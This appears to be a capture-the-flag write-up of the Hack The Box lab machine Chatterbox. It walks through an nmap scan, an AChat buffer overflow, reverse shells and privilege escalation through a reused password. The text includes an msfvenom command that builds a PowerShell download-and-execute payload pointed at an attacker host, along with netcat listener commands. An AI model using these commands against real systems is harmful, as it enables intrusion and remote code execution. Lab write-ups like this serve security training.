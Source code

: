 # Chatterbox (`10.10.10.74`)

## Summary

1. Buffer overflow in a chat app running on weird port.
2. Powershell reverse shell with `nishang`
3. `WinPEAS` shows us some credentials and the administrator account has a reused password.

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `chatterbox.htb` to `10.10.10.74`.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports chatterbox.htb
# Nmap 7.80 scan initiated Thu Oct  8 05:49:13 2020 as: nmap -A -v -p- -Pn -oA allports chatterbox.htb
Nmap scan report for chatterbox.htb (10.10.10.74)
Host is up (0.058s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   AChat chat system
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.060 days (since Thu Oct  8 05:47:23 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incremental

TRACEROUTE (using port 9256/tcp)
HOP RTT      ADDRESS
1   61.59 ms 10.10.14.1
2   61.60 ms chatterbox.htb (10.10.10.74)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct  8 07:14:28 2020 -- 1 IP address (1 host up) scanned in 5115.12 seconds

```

## Reverse Shell (Method 1)

![](img/2020-10-09-01-29-52.png)

![](img/2020-10-09-01-30-03.png)

I generate a reverse shell and name it `shell.exe`.

![](img/2020-10-09-01-30-48.png)

I create one payload to download the shell to `C:\\Users\\public\\shell.exe`, and another one to execute it.

I modify the IP address in the exploit like this. All other modifications are payload-related.

![](img/2020-10-09-01-34-55.png)

The "download shell" payload looks like this:

![](img/2020-10-09-01-35-17.png)

And the "execute shell" payload looks like this:

![](img/2020-10-09-01-35-45.png)

I start a server with `$ sudo python3 -m http.server 80` and a `nc` listener with: `$ sudo nc -lvnp 443`.

I then run the download and execute payloads in sequence.

![](img/2020-10-09-01-36-49.png)

![](img/2020-10-09-01-37-04.png)

![](img/2020-10-09-01-36-57.png)

![](img/2020-10-09-01-37-11.png)

![](img/2020-10-09-01-38-11.png)

## Powershell Reverse Shell

We're going to host a `nishang` reverse shell on a web server and download and execute it on our target with an `msfvenom` payload delivered through the buffer overflow.

![](img/2020-10-11-23-04-24.png)

```bash
$ msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.39/shell.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

![](img/2020-10-11-23-06-19.png)

Start a listener with `$ nc -lvnp 443`.

![](img/2020-10-11-23-13-26.png)

![](img/2020-10-11-23-13-48.png)

## Privilege Escalation

winPEAS shows...

![](img/2020-10-09-01-41-03.png)

![](img/2020-10-09-02-02-15.png)

Let's see if they reused the password.

I create this script to test the credentials, and if they work, create a reverse shell from the Administrator account.

![](img/2020-10-11-23-20-39.png)

I host it on a server.

![](img/2020-10-11-23-20-54.png)

In my existing powershell session, I run this command after starting a listener with `$ nc -lvnp 443`:

![](img/2020-10-11-23-21-18.png)

![](img/2020-10-11-23-21-40.png)

And that's a wrap.

This was a fantastic box.

